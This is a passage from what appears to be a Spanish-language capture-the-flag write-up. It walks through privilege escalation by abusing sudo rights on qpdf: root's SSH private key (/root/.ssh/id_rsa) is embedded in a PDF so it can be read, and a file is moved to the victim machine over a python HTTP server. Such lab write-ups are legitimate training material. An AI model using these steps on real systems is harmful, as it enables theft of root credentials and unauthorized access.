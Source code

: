 Hay una opción que nos llama la atención especialmente: `add-attachment`. Podemos adjuntar la clave privada de ssh del usuario root.

Primero debemos indagar en la ayuda del parámetro `add-attachment` para usarlo correctamente.

```
sudo qpdf --help=add-attachment

The options listed below appear between --add-attachment and its
terminating "--".

Related options:
  --creationdate: set attachment's creation date
  --description: set attachment's description
  --filename: set attachment's displayed filename
  --key: specify attachment key
  --mimetype: attachment mime type, e.g. application/pdf
  --moddate: set attachment's modification date
  --replace: replace attachment with same key

For detailed help, visit the qpdf manual: https://qpdf.readthedocs.io
```

Para empezar vamos a descargarnos un PDF de prueba a nustra máquina local y a iniciar un servidor en python para transferirla a la máquina víctima.

```
wget https://pdfobject.com/pdf/sample.pdf
python3 -m http.server 80
```

En la máquina víctima nos descargamos este PDF a una carpeta en `/tmp`.

```
mkdir /tmp/.delo
cd !$
wget http://10.10.14.124/sample.pdf
```

Ahora podemos adjuntar el archivo `/root/.ssh/id_rsa` al PDF.

```
sudo qpdf sample.pdf --add-attachment /root/.ssh/id_rsa -- root-id_rsa.pdf
```

Ya tenemos el archivo `root-id_rsa.pdf`, solo falta ver la manera de leerlo y utilizarlo para autenticarnos como root.

```
sudo qpdf --help=attachments

It is possible to list, add, or delete embedded files (also known
as attachments) and to copy attachments from other files. See help
on individual options for details. Run qpdf --help=add-attachment
for additional details about adding attachments. See also
--help=--list-attachments and --help=--show-attachment.

Related options:
  --add-attachment: start add attachment options
  --copy-attachments-from: start copy attachment options
  --remove-attachment: remove an embedded file

For detailed help, visit the qpdf manual: https://qpdf.readthedocs.io
```
